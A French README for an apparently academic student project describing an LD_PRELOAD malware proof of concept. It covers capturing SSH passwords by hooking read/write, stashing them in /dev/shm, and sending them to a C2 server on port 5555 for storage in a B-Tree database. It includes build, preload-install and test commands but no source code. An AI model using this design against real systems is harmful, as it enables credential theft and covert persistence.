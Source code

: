 ## Auteur
- Angelov Onur et Slimani Anis — ESGI 3SIJ
# README - Malware LD_PRELOAD avec Serveur C2 et Base de Données en C (B-Tree)

Ce projet est un POC complet d’un malware basé sur `LD_PRELOAD`, capable d’intercepter les identifiants SSH d’un utilisateur, de les envoyer à un serveur distant C2, et de les stocker de manière persistante dans une base de données implémentée en C à l’aide d’un B-Tree.

---

## 📁 Structure du projet

```
Project_Root/
├── LD_PRELOAD/         # Malware intercepteur LD_PRELOAD
│   ├── malware.c
│   ├── send_to_c2.c
│   ├── Makefile
│   ├── add_to_ldso.sh
│   └── ...
│
├── server/             # Serveur C2 (Command & Control)
│   ├── server.c
│   ├── server.h
│   ├── Makefile
│   └── ...
│
└── BTreeDB/            # Base de données en C avec B-Tree
     └── ...
```

---

## 💣 Malware LD_PRELOAD

### Fonctionnalités :
- Intercepte les fonctions `read()` et `write()` pour capturer les mots de passe SSH
- Enregistre les identifiants localement dans `/dev/shm/.creds`
- Envoie automatiquement les credentials au serveur C2 via TCP sur le port `5555`
- Bloque l'accès aux fichiers sensibles comme `/etc/passwd`

### Compilation :
```bash
cd LD_PRELOAD
make
```

### Utilisation :
```bash
chmod +x add_to_ldso.sh
./add_to_ldso.sh
```

### Test de bon fonctionnement :
```bash
cat /etc/passwd
sudo cat /etc/passwd
LD_PRELOAD=$PWD/malware.so ssh user@ip_serveur
```

---

## 📡 Serveur Command & Control (C2)

### Installation du serveur SSH (VM C2) :
```bash
sudo apt update
sudo apt install openssh-server
sudo nano /etc/ssh/sshd_config
# Modifier ou ajouter : Port 5555
sudo systemctl enable ssh
sudo systemctl start ssh
```

### Fonctionnalités :
- Écoute sur le port `5555`
- Reçoit les messages de type : `register hostname password`
- Transfère automatiquement les données à la base de données locale (dossier `db_c`)

### Compilation & Exécution :
```bash
cd server
make
./server
```

---

## 🗃️ Base de Données B-Tree en C

### Fonctionnalités :
- Stocke les identifiants SSH exfiltrés
- Gère aussi les étudiants via interface SQL simplifiée
- Persistance dans `students.csv`
- Réécriture automatique du fichier après suppression pour réindexer les IDs

### Compilation & Exécution :
```bash
cd db_c
make
./db
```

### Commandes supportées :
```sql
Voir README.md dans BTreeDB
```

---



